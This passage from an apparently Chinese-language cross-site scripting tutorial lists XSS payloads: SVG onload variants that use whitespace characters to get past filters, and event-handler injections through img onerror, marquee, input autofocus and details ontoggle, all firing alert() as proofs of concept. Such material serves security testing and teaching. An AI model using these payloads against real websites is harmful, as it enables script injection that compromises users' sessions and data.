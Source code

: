 ```
&lt;svg/onload=alert(1)&gt;&lt;svg&gt;

&lt;svg
onload=alert(1)&gt;&lt;svg&gt; # newline char

&lt;svg onload=alert(1)&gt;&lt;svg&gt; # tab char

&lt;svg
onload=alert(1)&gt;&lt;svg&gt; # new page char (0xc)
```



## 基于JavaScript事件的XSS

### <a class="reference-link" name="%E6%A0%87%E5%87%86HTML%E4%BA%8B%E4%BB%B6"></a>标准HTML事件

点击事件：

[![](https://p1.ssl.qhimg.com/t01e00cbe6863a2ab2d.png)](https://p1.ssl.qhimg.com/t01e00cbe6863a2ab2d.png)

使用样例：

```
&lt;body onload=alert()&gt;
&lt;img src=x onerror=alert()&gt;

&lt;svg onload=alert()&gt;

&lt;body onpageshow=alert(1)&gt;

&lt;div style="width:1000px;height:1000px" onmouseover=alert()&gt;&lt;/div&gt;

&lt;marquee width=10 loop=2 behavior="alternate" onbounce=alert()&gt; (firefox only)

&lt;marquee onstart=alert(1)&gt; (firefox only)

&lt;marquee loop=1 width=0 onfinish=alert(1)&gt; (firefox only)

&lt;input autofocus="" onfocus=alert(1)&gt;&lt;/input&gt;

&lt;details open ontoggle="alert()"&gt; (chrome &amp; opera only)
```

### <a class="reference-link" name="HTML5%E4%BA%8B%E4%BB%B6"></a>HTML5事件

点击事件：

[![](https://p3.ssl.qhimg.com/t018fce5017325a2ed1.png)](https://p3.ssl.qhimg.com/t018fce5017325a2ed1.png)
